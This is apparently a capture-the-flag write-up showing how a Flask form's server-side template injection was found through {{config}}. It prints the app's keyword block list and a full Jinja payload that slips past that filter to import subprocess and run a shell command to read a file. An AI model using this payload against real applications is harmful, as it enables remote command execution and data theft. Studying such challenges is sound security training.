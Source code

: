 # Congenial Octo Couscous

Try filling out the form once -- it returns some of our own input. Sign of XSS or SSTI.  
`<b>1</b>` doesn't do anything, but `{{config}}` does.
```
SERVER_FILEPATH&#39;: &#39;/secretserverfile.py&#39;}&gt;.
```
This line ^^^ in particular looks interesting. Visiting the link `/secretserverfile.py` reveals the source code for the challenge,
which includes some code about filtration.
```javascript
if '{' in text or '}' in text:
        text2=re.sub(r'\s','',text).lower()
        illegal = ['"', 'class', '[', ']', 'dict', 'sys', 'os', 'eval', 'exec', 'config.']
```     
So it seems like the challenge is to bypass the filter to read the strategy guide.
Given flask is written in python, it would make sense to import a module that can execute commands; althought os is filtered, subprocess is not,
and now the only challenge is figuring out how to import. After a fair bit of googling, it turns out 
```
request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')
```
Can be used to import a module. Combining this with subprocess we get a final payload of:
```javascript
{{request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('subprocess')|attr('getoutput')('cat strategyguide.txt')}}
```
and reading the file gives us: Best formation that wins every time: `DDDDD DLLLD DLHLD DLLLD DDDDD Key: D=Drone L=Landscaper H=HQ Beginning of game strategy`: 
#### tjctf{c0ng3n1al_500iq_str4ts_ez_dub}
